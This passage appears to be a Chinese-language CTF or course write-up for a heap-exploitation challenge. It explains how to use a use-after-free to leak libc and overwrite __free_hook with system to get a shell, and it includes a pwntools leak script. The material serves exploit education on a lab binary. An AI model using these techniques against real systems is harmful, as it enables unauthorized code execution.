 ```cpp
			break;
		case 4:
			delete_note();
			break;
		default:
			puts("Invalid command");
		}
	}
	return 0;
}
```
:::
## Recon
:::warning
Run On Ubuntu 20.04
:::
這一題有很多種方式可以拿到shell，不過原理都是一樣的，前置作業都是一樣的，也就是要利用UAF去leak出libc address，接著算出`__free_hook`以及`system`的位址，接著想辦法把`system`寫到`__free_hook`的位址，此時就有兩種方式可以寫，一種是利用此次學到的double free，把值寫到最後一個在tcache的free chunk，蓋掉他的fd，接著就可以用add_note把tcache的值要回來，並寫system的address進到__free_hook；另一種方式就比較簡單，也就是把free chunk的fd利用UAF的特性改掉，並且直接add_note把東西從tcache要回來，之後就一樣寫system_addr，後free掉一個帶有/bin/sh的chunk，此時就會開一個shell給我們了
### 前置作業: Leak Libc Address
關於這一點可以參考[如何用UAF leak libc address?](https://hackmd.io/@SBK6401/SJWc9v4Bp#%E5%A6%82%E4%BD%95%E7%94%A8UAF-leak-libc-address)，方法都一樣，首先要想辦法讓free chunk進到unsorted bin中(最簡單的方法就是設定超過0x410的空間)，接著因為malloc的時候沒有實作清空原本的資料，導致我們可以leak其中有關libc section的資訊。底下的設定意思是我們先設定三個notes，#14的意思是不要讓#13被free掉的時候被consolidate用的，接著我們把前兩個free掉，結果如下
![image](https://hackmd.io/_uploads/r14opZfL6.png)
會發現#12和#13被consolidate在一起了，接著我們看其中的一些資訊
![image](https://hackmd.io/_uploads/SJwX0-GIT.png)
裡面確實存著libc相關的資訊，接著只要把這一塊chunk malloc出去給隨便一個note，接著讀其中的資料就可以讀出libc address了
```python
add_note(12, 0x420)
add_note(13, 0x420)
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
r.recv(0x420 - 0x8)
```
### 方法一: Double Fee
有了libc address後，我們要想辦法把system address寫到`__free_hook`的位置，如果是要用double free的方法的話可以參考上課的講義:
![image](https://hackmd.io/_uploads/SJNM1Mf8T.png)
